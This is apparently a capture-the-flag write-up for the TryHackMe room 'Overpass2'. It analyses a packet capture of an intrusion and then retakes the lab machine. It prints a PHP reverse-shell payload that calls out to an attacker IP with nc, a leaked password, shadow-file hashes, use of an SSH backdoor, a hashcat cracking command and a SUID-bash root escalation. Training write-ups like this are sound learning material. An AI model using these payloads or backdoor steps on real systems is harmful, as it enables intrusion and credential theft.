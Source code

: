 ```yaml
---
layout: post
title: "Overpass2"
tags: TryHackMe
description: "Analyze PCAP file and follow the steps of another attacker to compromise this machine."
---
```


[Overpass2](https://tryhackme.com/room/overpass2hacked) is the seventh machine in the "Advanced Exploitation" part of  TryHackMe's "Offensive pentesting" path.

---

## PCAP analysis
That is an unusual type of machine for me. We got the `.pcap` file with the network dump.   
There are few ways to work with `.pcap` files if you are do it all the time, you most likely doing it in the terminal with tools like `tshark`.  
If you work with `.pcap` files occasionally, you are probably using the `Wireshark`.   

The official guide is recommending to use the `Wireshark` so let's not play a l33t hackerman this time and obey.  

Download the `.pcap` file to your system and open it with `Wireshark`.  

It might look overwhelming, but it not so hard to get used to it after all.  
If you never worked with `.pcap` files before - it is a format for capturing the network traffic. The first packets will be placed at the top, and you can scroll down the main window to see other packets.    
One of the main features of the `Wireshark` is the ability to `follow streams`. That will transform the content of the file into a more readable format.  
`Wireshark` has tons of features, you should explore it!

The interesting part for us started from the `POST` request to the `/development/upload.php` page. You can use the `Follow HTTP stream` feature to read details.

We can find this command in the body of the `POST` request:
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
The attacker is spawning the reverse shell to the IP address `192.168.170.145` on port `4242`.

We can also notice that the attacker is using `nc` as a communication point, and we know that `nc` transferring all data as a clear text. That means we will be able to read everything that happened on the machine, including all commands, provided passwords, etc.  

You can scroll the dump a bit and follow another stream started from packet number 32. It's a `TCP` packet, so you can use the `Follow TCP Stream` feature of the `Wireshark`.  

```
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

The first thing that the attacker did - upgrade the shell to `Fully Interactive TTY` with `python`.   
The next thing that we can use later is the password for user `james` right in the stream (it's was transferred in a clear text, remember?).  

```
james@overpass-production:~$ sudo -l
sudo -l
[sudo] password for james: whenevernoteartinstant

User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
```

We can also see that the attacker has the dump of `/etc/shadow`

```
james@overpass-production:~$ sudo cat /etc/shadow

james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```
Feel free to crack those hashes! *wink*  

The attacker also established an `ssh` backdoor:
```
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor

james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

That's all we need to know to know.

## Analyze the code  
It's a good idea to clone the repo and look around.

The file `main.go` contains the original hash for the backdoor and hardcoded [salt](https://en.wikipedia.org/wiki/Salt_(cryptography)).  
From the `.pcap` file we know that the attacker used `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed` hash, and from the repo we know that hardcoded salt is `1c362db832f3f864c8c2fe05f2002a05`.
Now you can combine it in the format `hash:salt`, and crack it!  
The syntax for `hashcat`, for instance. You can use other tools if you want.  
```
hashcat -m 1710 -a 0 -o password.txt hash.txt /usr/share/wordlists/rockyou.txt
```

## Get back in!

Now we have everything that might be needed to exploit the machine one more time.  
As we already know all details about the backdoor, so we can use it as a shortcut and not re-exploit the machine from the scratch.   

Note that `ssh` is running not on default port `22`.

```
ssh -p 2222 james@10.10.147.82
```

Use the password that you just cracked to login.  


## PrivEsc

Privilege escalation is simple this time.   
Let's look around:

```
james@overpass-production:/home/james$ ls -la

total 1136
drwxr-xr-x 7 james james    4096 Jul 22 03:40 .
drwxr-xr-x 7 root  root     4096 Jul 21 18:08 ..
lrwxrwxrwx 1 james james       9 Jul 21 18:14 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21 00:36 .cache
drwx------ 3 james james    4096 Jul 21 00:36 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22 03:35 .local
-rw------- 1 james james      51 Jul 21 17:45 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21 00:37 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22 02:57 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22 03:35 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22 03:40 user.txt
drwxrwxr-x 7 james james    4096 Jul 21 01:37 www
```
There is a hidden `.suid_bash` binary with the `SUID` bit!  
You can run it in order to get root, but keep in mind that you will need to specify the `-p` flag to allow the `SUID` bit to affect your privileges.

```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
```

## Takeaway
- Ability to analyze dumps and logs can be priceless
- The whole process of going through this machine is like reading a writeup, you can learn a lot from it.
